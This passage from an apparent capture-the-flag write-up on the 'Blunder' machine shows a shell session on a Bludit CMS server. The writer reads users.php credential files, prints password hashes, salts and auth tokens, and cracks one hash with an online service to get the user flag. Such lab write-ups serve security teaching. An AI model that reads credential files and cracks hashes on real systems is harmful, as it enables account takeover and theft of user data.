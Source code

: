 ```bash
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
}www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ 
```
We find a username hash and salt, I tried cracking it with hashcat but didn't find anything, and there is not point cracking fergus' hash. Let's look around some more. 
```bash
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ 
```
We find a newer version of bludit (it seems they were in the process of updating bludit) and a username 'hugo' and a password hash. Using crackstation, we were able to crack it and get the user flag.